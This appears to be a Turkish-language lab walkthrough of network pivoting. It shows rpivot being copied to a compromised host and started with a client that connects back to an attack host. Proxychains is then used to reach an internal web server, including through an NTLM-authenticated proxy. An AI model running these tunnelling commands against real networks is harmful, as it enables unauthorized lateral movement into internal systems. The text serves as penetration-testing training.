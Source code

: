 
#### rpivot'u Hedefe Aktarma
```shell-session
M1R4CKCK@htb[/htb]$ scp -r rpivot ubuntu@<IpaddressOfTarget>:/home/ubuntu/
```


### Pivot Target'tan client.py dosyasını çalıştırma

```shell-session
ubuntu@WEB01:~/rpivot$ python2.7 client.py --server-ip 10.10.14.18 --server-port 9999

Backconnecting to server 10.10.14.18 port 9999
```


### Bağlantının Kurulduğunu Onaylama
```shell-session
New connection from host 10.129.202.64, source port 35226
```

Proxychains'i, başlangıçta Python sunucusu tarafından başlatılan saldırı hostumuzda 127.0.0.1:9050 adresindeki yerel sunucumuz üzerinden dönecek şekilde yapılandıracağız.

Son olarak, proxychains ve Firefox kullanarak 172.16.5.0/23 dahili ağında 172.16.5.135:80 adresinde barındırılan sunucu tarafımızdaki web sunucusuna erişebilmeliyiz.


### Proxy Zincirleri Kullanarak Hedef Web Sunucusuna Tarama
```shell-session
proxychains firefox-esr 172.16.5.135:80
```

![Pasted image 20241007171211.png](/img/user/resimler/Pasted%20image%2020241007171211.png)

Yukarıdaki pivot proxy'ye benzer şekilde, buluttaki dış sunucu (saldırı hostu) ile doğrudan pivot yapamadığımız senaryolar olabilir. Bazı kuruluşların Domain Controller ile yapılandırılmış [NTLM kimlik doğrulamalı HTTP-proxy'si](https://learn.microsoft.com/en-us/openspecs/office_protocols/ms-grvhenc/b9e676e7-e787-4020-9840-7cfe7c76044a) vardır. Bu gibi durumlarda, bir kullanıcı adı ve parola sağlayarak NTLM proxy aracılığıyla kimlik doğrulaması yapmak için rpivot'a ek bir NTLM kimlik doğrulama seçeneği sağlayabiliriz. Bu durumlarda, rpivot'un client.py dosyasını aşağıdaki şekilde kullanabiliriz:

#### Connecting to a Web Server using HTTP-Proxy & NTLM Auth

```shell-session
python client.py --server-ip <IPaddressofTargetWebServer> --server-port 8080 --ntlm-proxy-ip <IPaddressofProxy> --ntlm-proxy-port 8081 --domain <nameofWindowsDomain> --username <username> --password <password>
```



### Windows Netsh ile Port Yönlendirme
[Netsh](https://docs.microsoft.com/en-us/windows-server/networking/technologies/netsh/netsh-contexts), belirli bir Windows sisteminin ağ yapılandırmasına yardımcı olabilecek bir Windows komut satırı aracıdır. İşte Netsh'i kullanabileceğimiz ağ ile ilgili görevlerden sadece bazıları:
* Rotaları bulma
* Güvenlik duvarı yapılandırmasını görüntüleme
* Proxy ekleme
* Port yönlendirme kuralları oluşturma
